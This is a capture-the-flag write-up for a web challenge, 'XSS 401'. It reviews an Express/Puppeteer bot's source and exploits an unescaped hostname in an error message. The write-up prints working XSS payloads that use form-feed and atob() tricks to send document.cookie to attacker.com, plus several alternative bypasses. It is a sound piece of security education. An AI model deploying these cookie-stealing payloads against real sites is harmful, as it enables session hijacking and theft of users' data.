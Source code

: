 # Web: XSS 401

![image](https://user-images.githubusercontent.com/74207547/160824693-6ed7f954-fc1f-4c89-a29b-8e953caeedbb.png)

`The goal of the challenge is to get xss and steal admin bot's cookie`

## Website

![image](https://user-images.githubusercontent.com/74207547/160824984-73d35d51-6250-451d-b495-22fb7b97729f.png)

There is not much of a content. We can enter the url for bot to visit.

## Source code review

```js
const express = require('express')
const puppeteer = require('puppeteer')
const escape = require('escape-html')

const app = express()
const port = 80

app.use(express.static(__dirname + '/webapp'))

const visitUrl = async (url, cookieDomain) => {
    // Chrome generates this error inside our docker container when starting up.
    // However, it seems to run ok anyway.
    //
    // [0105/011035.292928:ERROR:gpu_init.cc(457)] Passthrough is not supported, GL is disabled, ANGLE is

    let browser =
            await puppeteer.launch({
                headless: true,
                pipe: true,
                dumpio: true,
                ignoreHTTPSErrors: true,

                // headless chrome in docker is not a picnic
                args: [
                    '--incognito',
                    '--no-sandbox',
                    '--disable-gpu',
                    '--disable-software-rasterizer',
                    '--disable-dev-shm-usage',
                ]
            })

    try {
        const ctx = await browser.createIncognitoBrowserContext()
        const page = await ctx.newPage()

        try {
            await page.setCookie({
                name: 'flag',
                value: process.env.FLAG,
                domain: cookieDomain,
                httpOnly: false,
                samesite: 'strict'
            })
            await page.goto(url, { timeout: 6000, waitUntil: 'networkidle2' })
        } finally {
            await page.close()
            await ctx.close()
        }
    }
    finally {
        browser.close()
    }
}

app.get('/visit', async (req, res) => {
    const url = req.query.url
    console.log('received url: ', url)

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        res.send(escape(e.message))
        return
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol != 'https:') {
        res.send('Please provide a URL with the http or https protocol.')
        return
    }

    if (parsedURL.hostname !== req.hostname) {
        res.send(`Please provide a URL with a hostname of: ${escape(req.hostname)}, your parsed hostname was: escape(${parsedURL.hostname})`)
        return
    }

    try {
        console.log('visiting url: ', url)
        await visitUrl(url, req.hostname)
        res.send('Our admin bot has visited your URL!')
    } catch (e) {
        console.log('error visiting: ', url, ', ', e.message)
        res.send('Error visiting your URL: ' + escape(e.message))
    } finally {
        console.log('done visiting url: ', url)
    }

})

app.listen(port, async () => {
    console.log(`Listening on ${port}`)
})
```

Simple puppeter setup. Our flag is in the bot's cookie

```js
if (parsedURL.hostname !== req.hostname) {
        res.send(`Please provide a URL with a hostname of: ${escape(req.hostname)}, your parsed hostname was: escape(${parsedURL.hostname})`)
        return
    }
```

This line stands out. Looks like there is no escaping from our url hostname.

```js
parsedURL = new URL(url)
```
The hostname is parsed by URL() function. Based on that I created payload to check if we can inject any html at first. 
`http://<b>Domons</b>`

![image](https://user-images.githubusercontent.com/74207547/160826836-b820f991-d0b7-4418-8f94-71c50bba7c01.png)

It worked. Next step is to get xss. That will be harder, since we cannot use spaces and slashes. Otherwise, the URL function will return an error when it encounters spaces and slice our payload to path not to the hostname when encounters slash. I searched for `XSS paylaod without spaces` and found this useful [post on stackexchange](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) which uses %0c form feed character
`http://<svg%0conload=alert(123)>`

![image](https://user-images.githubusercontent.com/74207547/160828385-6ff4368a-21b8-456a-b9b2-6200a6af82d5.png)

It worked again. Next step is to fetch our private web server and add a cookie to the request. Normal payload would look like this `http://<svg%0conload=fetch('http://attacker.com'+document.cookie)` but URL function crashes when it sees next http wrapper.
<br><br>
We need to find a way to encode http wrapper into the fetch function. This one is a tricky part. Any type of encoding such as hex, octal won't work. URL function will decode that. The next problem is that the hostname is being converted to lowercase, which eliminates half of js built-in functions.

## Solution

There are plenty of solutions to that problem. I chose one of the most difficult. I decided to use atob() function which decodes base64 encoding. Since I couldn't use uppercase letters I had to find base64 code for each character `:, /` made up of lowercase only. 

* `atob('azo=')` -> `k:`
* `atob('ey8=')` -> `{/`

We can add slice(1) to each atob() function to get only the chars we want.
<br><br>
Final payload:
`http://<svg%0conload=fetch('https'+atob('azo=').slice(1)+atob('ey8=').slice(1)+atob('ey8=').slice(1)+'attacker.com'+atob('ey8=').slice(1)+document.cookie)>`
<br><br>
Steps to reproduce:
* enter the payload to url form for bot to visit
* copy the url of site where js pops off
* enter copied url into url form for bot to visit once again

![image](https://user-images.githubusercontent.com/74207547/160838650-18682562-fd03-4c7e-9d43-190c1b043227.png)

Other `http://` wrapper bypasses by other users:
* `window.location.protocol` -> `https://`
* `''.italics().at(4)` -> `/`
* `&colon;` -> `:`
* `&sol;` -> `/`
* `eval(location.hash.slice(1))%3E#window.open('http://atacker.com'.concat(document.cookie))` -> get the payload from http reference `#`

## Flag: wsc{wh0_kn3w_d0m41n_x55_w4s_4_th1n6}
